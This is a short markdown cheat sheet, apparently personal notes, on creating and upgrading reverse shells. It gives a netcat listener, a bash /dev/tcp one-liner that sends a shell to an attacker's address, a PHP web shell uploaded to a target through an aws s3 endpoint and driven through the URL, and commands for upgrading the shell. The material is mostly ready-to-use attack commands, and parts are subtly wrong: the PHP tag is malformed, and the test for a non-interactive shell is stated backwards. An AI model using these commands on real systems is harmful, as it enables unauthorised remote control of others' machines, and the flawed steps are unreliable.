 # Description
This file lists everything I know about reverse shells and how to use them.

# Create a reverse shell
#### Description
How to create a reverse shell through bash/Linux terminal commands
### What are reverse shells used for?
Reverse shells are often used for gaining remote access to a system. Reverse shells require a listener on your attacking machine, and then you need to execute a command on the target machine that connects back to your listener, granting you access to the target machine's shell.
### How to create a reverse shell using ```bash```
1. ```nc -lvnp 4444```: use ```netcat``` to create a listener on port ```4444```
    a. Other port numbers can be used as well, select the number that works for you 
2. ```bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1```: use ```bash``` to start an interactive shell
### How to create a reverse shell using ```aws``` and ```php```
1. ```nano shell.php```
        a. Use the code editor to write a piece of code in PHP, such as:
   ```<? php system($_GET['cmd']); ?>```
2. ```cat shell.php```: check for ```shell.php```
3. ```aws s3 cp --endpoint-url=http://<target_url> shell.php s3://<target_url_w/o_extensions>```: upload ```shell.php``` to target
4. go to web browser, enter URL ```http://<target_url>/shell.php?cmd=ls```: execute ```ls``` command in web browser
        a. You should now have access to the target website and can execute ```bash``` commands through the URL.
        b. Replace ```ls``` with any command (keeping in mind spaces are "```+```" in URL encoding) to execute.


# Upgrade your shell
#### Description
How to upgrade a non-interactive shell (reverse shell) to a fully interactive one
### How do I know if I'm in a non-interactive shell?
You're probably in an interactive shell if you've tried to execute a MySQL prompt and the program froze.
### How to upgrade your shell
1. ```python3 -c 'import pty; pty.spawn("/bin/bash")'```
2. ```stty raw -echo; fg```
3. ```script /dev/null -c bash```
